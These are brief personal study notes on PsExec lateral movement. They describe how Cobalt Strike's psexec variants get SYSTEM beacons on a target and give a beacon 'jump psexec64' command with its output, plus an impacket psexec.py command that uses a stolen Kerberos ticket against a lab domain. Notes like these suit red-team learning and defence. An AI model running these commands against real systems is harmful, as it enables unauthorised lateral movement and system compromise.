 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[PsExec]]  
___

## Description:  

For Lateral Movement in Cobalt Strike

The `psexec` / `psexec64` commands work by first uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  `psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).

Beacons executed this way run as SYSTEM.

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25

```

### With impacket
You need a .ccache or .kirbi ticket.
To obtain those tickets from Rebeus: [[RubeusToCcache]]
test
```
export KRB5CCNAME=/root/impacket-examples/ticket.ccache
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:47 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
